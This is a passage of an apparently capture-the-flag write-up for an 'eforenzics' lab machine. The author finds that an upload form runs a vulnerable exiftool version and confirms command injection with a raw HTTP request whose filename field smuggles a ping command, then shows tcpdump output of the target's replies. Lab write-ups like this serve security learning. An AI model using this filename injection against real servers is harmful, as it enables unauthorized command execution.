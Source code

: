 But unfortunately it allows only jpeg or png files to be uploaded
![image](https://user-images.githubusercontent.com/113513376/213943807-f04a1149-6b7a-4c6a-b1e4-ea55d6571ee3.png)

Alright i'll upload a real png file now
![image](https://user-images.githubusercontent.com/113513376/213943837-d38a9fd7-6f7f-49db-a40f-d0ad2b46e4a3.png)

It uploaded
![image](https://user-images.githubusercontent.com/113513376/213943854-6136e181-70ec-43a9-a4b8-584409fa4305.png)

On viewing the content i get this
![image](https://user-images.githubusercontent.com/113513376/213943870-787588a2-e3df-421b-97a8-38d2c0e4b17f.png)

So this is running exiftool on the files uploaded and also it appends .txt at the end of the file

But what is of interest here is the version of the exiftool which in this case its 12.37

Checking google for exiftool 12.37 exploit 

It leads to this github gist https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429

Meaning the version of the exiftool is vulnerable to command injection 

Lets check it out

So i'll try to ping my host first to confirm if it works

And i have the upload request in my proxy which is of course burp

```
POST /upload.php HTTP/1.1
Host: eforenzics.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4908921738341505612159058985
Content-Length: 876
Origin: http://eforenzics.htb
Connection: close
Referer: http://eforenzics.htb/service.html
Upgrade-Insecure-Requests: 1

-----------------------------4908921738341505612159058985
Content-Disposition: form-data; name="image"; filename="ping -c 5 10.10.16.54 |"
Content-Type: image/png

PNG

```

And back on the tcpdump 

```
──(mark__haxor)-[~]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for mark: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:36:18.171277 IP eforenzics.htb > haxor: ICMP echo request, id 1, seq 3226, length 64
23:36:18.171295 IP haxor > eforenzics.htb: ICMP echo reply, id 1, seq 3226, length 64
23:36:19.173764 IP eforenzics.htb > haxor: ICMP echo request, id 1, seq 3227, length 64
23:36:19.173800 IP haxor > eforenzics.htb: ICMP echo reply, id 1, seq 3227, length 64
23:36:20.177580 IP eforenzics.htb > haxor: ICMP echo request, id 1, seq 3228, length 64
23:36:20.177599 IP haxor > eforenzics.htb: ICMP echo reply, id 1, seq 3228, length 64
23:36:21.179802 IP eforenzics.htb > haxor: ICMP echo request, id 1, seq 3229, length 64
23:36:21.179822 IP haxor > eforenzics.htb: ICMP echo reply, id 1, seq 3229, length 64
```
